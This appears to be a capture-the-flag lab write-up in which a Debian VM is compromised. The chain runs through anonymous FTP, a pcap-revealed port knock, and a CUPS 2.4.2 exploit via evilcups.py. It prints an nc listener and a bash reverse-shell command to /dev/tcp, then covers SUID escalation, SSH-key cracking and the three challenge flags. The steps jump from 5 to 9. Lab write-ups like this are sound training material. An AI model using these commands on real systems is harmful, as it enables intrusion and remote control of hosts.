### Step 1: Import the .ova file into vmware 
After importing into virtualbox or vmware, we can notice it is a Linux Debian machine with the username of **alexander**. The next task is to get the IP address of this machine from a attack machine, for this case our attack machine used is Parrot OS. 



### Step 2: Ping sweep to get the IP address of the machine

With this one liner bash script, we get the victim machine IP address. 

```bash
for i in $(seq 254); do ping 172.20.10.$i -c1 -W1 & done | grep from
```

Make sure the IP address that we going to scan is within the subnet which is **172.20.10** 



### Step 3: Use Nmap to scan open ports of the machine

```bash
 nmap -A 172.20.10.6
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-29 16:28 UTC
Nmap scan report for 172.20.10.6
Host is up (0.00058s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 172.20.10.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey:
|   256 00:dd:3e:84:f7:9c:5e:91:86:f4:e3:88:4a:98:8b:bc (ECDSA)
|_  256 91:8e:1f:ca:0d:33:01:96:45:75:30:ca:e7:e4:dc:7a (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.09 seconds
```

We notice that the machine has 3 ports are open which are FTP (21), SSH (22) and HTTP (80). Moreover, the FTP server of the machine allow anonymous login. 
### Step 4: Use FTP to check files that are expose
```bash
ftp 172.20.10.6
Connected to 172.20.10.6.
220 ///  My Private File Sharing System ///
Name (172.20.10.6:trevorphilips): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0           56420 Nov 27 21:22 net.pcap
226 Directory send OK.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0           56420 Nov 27 21:22 net.pcap
226 Directory send OK.
ftp> get net.pcap
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for net.pcap (56420 bytes).
226 Transfer complete.
56420 bytes received in 0.01 seconds (5.38 Mbytes/s)
ftp> quit
221 Goodbye.
```

From the ftp server, we can notice a pcap file can be access. We can use `ls` and `get` to download the pcap file to analyze it futher.
### Step 5: Analyze PCAP 
Opening the `net.pcap` file, we can first analyze it from the protocol hierarchy and relate with the communication of IP address.



From the protocol hierarchy output, we able to investigate futher in tcp transmissions based on the IP address communication.



After futher investigation, we notice port knocking performed by `ip.addr==192.168.248.151 && ip.addr==192.168.248.137`

The wireshark filter to narrow down on port knocking action is this:
```
ip.addr==192.168.248.151 && ip.addr==192.168.248.137 && (tcp.flags.syn == 1 && tcp.flags.ack == 0)
```




### Step 9: Port Knocking on PCAP (TCP.SYN.ACK to open port 631)
- in detail on which port is being knocked

### Step 10: Nmap to port 631 and found new service called CUPS
After analyzing the pcap file, we notice the use of port 631, which is for the Internet Printing Protocol (IPP). This protocol is commonly used by CUPS (Common UNIX Printing System) to manage print jobs and printers over a network. 

References: [631 - Internet Printing Protocol (IPP)](https://book.hacktricks.xyz/network-services-pentesting/pentesting-631-internet-printing-protocol-ipp)

In order to perform nmap scan on the victim machine, we have to perform knocking with knockd
```
knock 172.20.10.6 77 67 2024
```

Later than we can perform nmap scan on port 631

```
nmap -A -sV -p 631 172.20.10.6
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-30 21:34 UTC
Nmap scan report for 172.20.10.6
Host is up (0.00042s latency).

PORT    STATE SERVICE VERSION
631/tcp open  ipp     CUPS 2.4
|_http-title: Home - CUPS 2.4.2
|_http-server-header: CUPS/2.4 IPP/2.1
| http-robots.txt: 1 disallowed entry
|_/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.44 seconds
```

From the scan result, we get to know that CUPS service is running with the version 2.4.2 which uses IPP and able to access with a web interface, as it indicated the HTTP details with `robots.txt`. 

### Step 11: Get reverse shell via evilcups to the victim machine

To gain access to the victim machine, utilize reverse shell from [evilcups.py](https://github.com/IppSec/evil-cups/blob/evilcups.py) which allow the attacker's machine to receive connection from the victim machine

First, step up a listener with nc
```
nc -lvnp 4545
```

Next, execute the reverse shell
```
python3 evil-cups.py 172.20.10.4 172.20.10.6 'bash -c "bash -i >& /dev/tcp/172.20.10.4/4545 0>&1"'
```





Once we enter the victim machine, the first flag is located at `/home/lp`, we can cat the `initial_flag.txt`
**1st Flag:** `MCC24{h3ll0_fr0m_pr1nt1ng_s3rv1c3s}`

### Step 12: Use tools suid3num to enumerate 



We have tried running linpeas but unfortunately it does not work due to timeout. So, we opt for suid3num enumeration to perform privilege escalation. 



Now, we have found the second flag.

**2nd Flag:** `MCC24{4bus1ng_su1d}`

### Step 13: Found last flag with alexander's privilege at home directory 

We got the ssh public key and private key from the machine. We can utilize `ssh2john` to prepare for hash cracking.



Next, we can use ssh to connect after successfully cracked the hash and then we md5sum the password.





**3rd Flag:** `MCC24{g00d_j0b_3v3ry0n3}`


